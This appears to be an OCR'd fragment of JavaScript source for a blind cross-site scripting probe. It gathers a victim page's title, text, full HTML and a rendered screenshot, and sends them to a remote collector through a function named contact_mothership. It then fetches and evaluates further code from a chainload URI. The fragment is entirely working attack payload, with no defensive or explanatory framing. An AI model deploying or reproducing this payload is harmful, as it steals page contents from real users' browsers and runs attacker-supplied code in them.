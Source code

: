 }
try {
    probe_return_data['injection_key'] = undefined;
} catch (e) {
    probe_return_data['injection_key'] = '';
}

probe_return_data['title'] = document.title;

probe_return_data['text'] = get_dom_text();

probe_return_data['was_iframe'] = !(window.top === window)

function hook_load_if_not_ready() {
    try {
        try {
            probe_return_data['dom'] = never_null(document.documentElement.outerHTML);
        } catch (e) {
            probe_return_data['dom'] = '';
        }
        html2canvas(document.body).then(function(canvas) {
            probe_return_data['screenshot'] = canvas.toDataURL();
            finishing_moves();
        });
    } catch (e) {
        probe_return_data['screenshot'] = '';
        finishing_moves();
    }
}

function finishing_moves() {
    contact_mothership(probe_return_data);
    collect_pages();
    if (chainload_uri != "" && chainload_uri != null) {
        eval_remote_source(chainload_uri);
    }
}

if (document.readyState == "complete") {
    hook_load_if_not_ready();
} else {
    addEvent(window, "load", function() {
        hook_load_if_not_ready();
    });
}
